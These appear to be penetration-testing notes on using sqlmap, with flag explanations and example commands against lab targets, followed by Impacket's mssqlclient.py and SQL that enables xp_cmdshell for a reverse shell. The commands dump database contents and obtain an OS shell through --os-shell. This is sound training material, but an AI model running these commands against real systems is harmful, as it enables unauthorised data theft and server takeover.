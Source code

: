 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful webs]].

### EXAMPLE 1

We can use *sqlmap* specifying the target url:
- *Parameters*:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is http://192.168.1.102/administrator
	    
	- `--batch`: This parameter is used to run sqlmap in batch mode, which means it will not prompt for any interactive user input and will perform the operations automatically.
	    
	- `--dbs`: This parameter instructs sqlmap to enumerate the available databases on the database server. By specifying this parameter, sqlmap will search for information about the databases it has access to by injecting SQL into the mentioned parameter.

	- `--tables`: This parameter instructs sqlmap to enumerate the available tables in the selected database. By using this parameter, sqlmap will search for information about the tables present in the database through the injection of SQL into the mentioned parameter.

	- `--level (1-5, default 1):`: This flag defines the scope of vectors and boundaries used for injection. Higher levels indicate a wider range of tests with a lower success rate (more obscure techniques).
		- Levels:
		    - 1 (default): Basic tests, minimal impact.
		    - 2: Extends tests to more techniques, might cause some disruption.			    
		    - 3: More advanced techniques, higher chance of impacting the target.
		    - 4-5: Highly specific and risky techniques, use with caution.

		- `--risk (1-3, default 1)`: This flag controls the types of exploit vectors used based on their potential risk. Higher risk means *sqlmap* attempts techniques that could potentially damage the database.
			- Levels:
			    - 1 (default): Low-risk techniques, unlikely to cause harm.
			    - 2: Includes techniques with a moderate risk of data loss or denial-of-service.
			    - 3: Attempts all techniques, including highly disruptive or data-altering ones (use responsibly).
		
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
	```
	After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
	```
	Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
	```
	Finally, you can print the columns information using:
	```bash
	sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch
	```

### EXAMPLE 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

- *Parameters:*
	- `-r pc`: This parameter specifies the file that contains the saved HTTP request, in this case called "pc". The file is used as input for sqlmap and contains the request that will be used to perform the SQL injection test.
	- `-p id`: This parameter indicates the name of the URL parameter or body parameter in the HTTP request that will be used as the SQL injection point. In this case, the parameter is named "id" and sqlmap will attempt to inject SQL into that parameter to search for possible vulnerabilities.
	- `--dbs`: This parameter instructs sqlmap to enumerate the available databases on the database server. By specifying this parameter, sqlmap will search for information about the databases it has access to by injecting SQL into the mentioned parameter.
	- `--tables`: This parameter instructs sqlmap to enumerate the available tables in the selected database. By using this parameter, sqlmap will search for information about the tables present in the database through the injection of SQL into the mentioned parameter.
	- `-D SQLite_masterdb`: This parameter specifies the name of the database on which the operations will be performed. In this case, "SQLite_masterdb" is used as the database name.
	- `-T accounts`: This parameter specifies the name of the table on which the operations will be performed. In this case, "accounts" is used as the table name.
	- `--columns`: This parameter instructs sqlmap to enumerate the available columns in the specified table.
	- `--batch`: This parameter is used to run sqlmap in batch mode, which means it will not prompt for any interactive user input and will perform the operations automatically.
	- `--threads 5`: This parameter specifies the number of threads that sqlmap will use simultaneously to perform the operations. In this case, 5 threads are used.
	- `--dump`: This parameter instructs sqlmap to extract the data from the specified table and display it as output.

*Commands: *
- Find databases:
```bash
sqlmap -r pc -p id  --dbs	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables  
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>"
```

### Exemple 3
- Parameters:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is `http://10.129.95.174/dashboard.php?search=any+query`
	    
	- `--cookie`: Sets the cookie value for the HTTP request. Cookies are often used to maintain session information. Here, the cookie being set is `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`.
	    
	- `--os-shell`: This parameter instructs SQLMap to attempt to obtain an operating system shell on the vulnerable server if it successfully exploits a SQL injection vulnerability. An operating system shell allows direct interaction with the underlying operating system.
```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
# mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````